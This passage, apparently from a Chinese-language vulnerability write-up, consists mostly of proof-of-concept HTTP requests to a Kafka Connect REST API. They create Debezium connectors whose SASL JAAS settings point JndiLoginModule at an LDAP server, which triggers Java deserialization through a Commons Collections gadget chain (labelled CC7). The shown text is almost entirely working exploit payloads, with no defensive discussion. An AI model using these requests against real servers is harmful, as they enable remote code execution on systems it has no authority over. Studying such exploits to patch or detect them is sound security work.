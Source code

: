 ```http
        "database.history.producer.security.protocol":"SASL_PLAINTEXT", "database.history.producer.sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://127.0.0.1:1389/o=scala-enable-unsafe-commons-deser\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"test\";",


    "database.history.kafka.bootstrap.servers": "192.168.163.128:9092",
    "database.history.kafka.topic": "dbhistory.local8023",
    "include.schema.changes": "true"
  }
}
```

发送POC2，进行LDAP反序列化利用，构造链为CC7：

```http
POST /connectors HTTP/1.1
Host: 192.168.163.128:8083
Content-Type: application/json
Content-Length: 1232

{
  "name": "conn-2",
  "config": {

    "connector.class": "io.debezium.connector.mysql.MySqlConnector",
    "database.hostname": "localhost",
    "database.port": "3306",
    "database.user": "bill",
    "database.password": "passpass",
    "database.server.id": "8023",
    "database.server.name": "localhost",
    "database.include.list": "test1",

 "database.history.consumer.sasl.mechanism":"PLAIN",
        "database.history.consumer.sasl.jaas.config":"org.apache.kafka.common.security.plain.PlainLoginModule required username=\"admin\" password=\"admin\";",
        "database.history.consumer.security.protocol":"SASL_PLAINTEXT",
        "database.history.producer.sasl.mechanism":"PLAIN",
        
        "database.history.producer.security.protocol":"SASL_PLAINTEXT", "database.history.producer.sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://127.0.0.1:1389/o=commons-collections7\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"test\";",


    "database.history.kafka.bootstrap.servers": "192.168.163.128:9092",
    "database.history.kafka.topic": "dbhistory.local8023",
    "include.schema.changes": "true"
  }
}
```
